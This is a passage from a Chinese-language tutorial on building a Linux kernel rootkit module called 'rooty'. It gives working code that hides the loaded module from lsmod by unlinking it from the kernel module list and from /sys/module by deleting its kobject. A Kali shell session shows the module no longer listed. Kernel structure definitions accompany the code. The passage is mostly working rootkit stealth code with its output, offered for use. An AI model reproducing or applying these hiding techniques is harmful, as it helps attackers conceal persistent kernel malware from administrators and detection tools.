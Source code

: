 根据源码注释，可知，之所以这么写的原因是为了防止编译器合并或重新读取读取或写入。确保编译器不折叠，主轴或以其他方式破坏不需要排序或与显式内存屏障或提供所需排序的原子指令交互的访问。具体解释在[这里](https://stackoverflow.com/questions/34988277/write-once-in-linux-kernel-lists)。在这里我们只需要简单的知道这部分是双向链表的删除操作就可以。

​	现在我们将`list_del_init(&__this_module.list)；`加入到我们的初始化函数中，保存，编译，装载模块，再输入`lsmod`就会发现找不到我们的模块了。

```c
static int __init rooty_init(void) {
    list_del_init(&__this_module.list);
    //printk("rooty: module loaded\n");
    return 0;
}
```

效果:

```shell
root@kali:~/Documents/rootkit# insmod rooty.ko
root@kali:~/Documents/rootkit# lsmod |grep rooty
root@kali:~/Documents/rootkit# modinfo rooty
modinfo: ERROR: Module rooty not found.
root@kali:~/Documents/rootkit# ls /sys/module/ |grep rooty
rooty
```

### 1.2.2 `sys/module`隐藏

​	`sys/module`总有加载内核对象的一般信息（比如参数）。所以通过查看`sysfs`也就是`sys/module`目录来发现现有模块是可行的。

​	`sysfs`是一个基于`ram`的文件系统，这个文件系统不仅可以把设备（devices）和驱动程序（drivers）的信息从内核输出到用户空间，也可以用来对设备和驱动程序做设置。通常，`sysfs`是挂在在/sys目录下的:

```shell
mount -t sysfs sysfs /sys
```

而`/sys/module`是一个`sysfs`的一个目录层次, 包含当前加载模块的信息.。`sysfs`与`kobject`层次紧密相连，它将`kobject`层次关系表现出来，使得用户空间可以看见这些层次关系。其中`kobj`是一个`struct kobject`结构体，而`kobject`是组成设备模型的基本结构。

​	所以原理大概是同上，我们通过`kobject_del()`函数删除我们当前模块的`kobject`就可以起到在`/sys/module`中隐藏`lkm`的作用。这里使用的函数是`kobject_del`我们在`&THIS_MODULE`上使用它，并将其指向`obj`，这个函数只使用`sysfs_remove_dir（obj)`从VFS中删除相关目录。代码:`kobject_del(&THIS_MODULE->mkobj.kobj);`

`&THIS_MODULE`的定义在`include/llinux/export.h`中，源码如下：

```c
extern struct module __this_module;
#define THIS_MODULE (&__this_module)
#else
#define THIS_MODULE ((struct module *)0)
```

可以看出THIS_MODULE的作用是指向当前模块。`&THIS_MODULE->mkobj.kobj`则代表的是struct module结构体的成员`struct module_kobject`的一部分，结构体的定义如下：

```c
struct module_kobject {
	struct kobject kobj;
	struct module *mod;
	struct kobject *drivers_dir;
	struct module_param_attrs *mp;
	struct completion *kobj_completion;
} __randomize_layout;
```
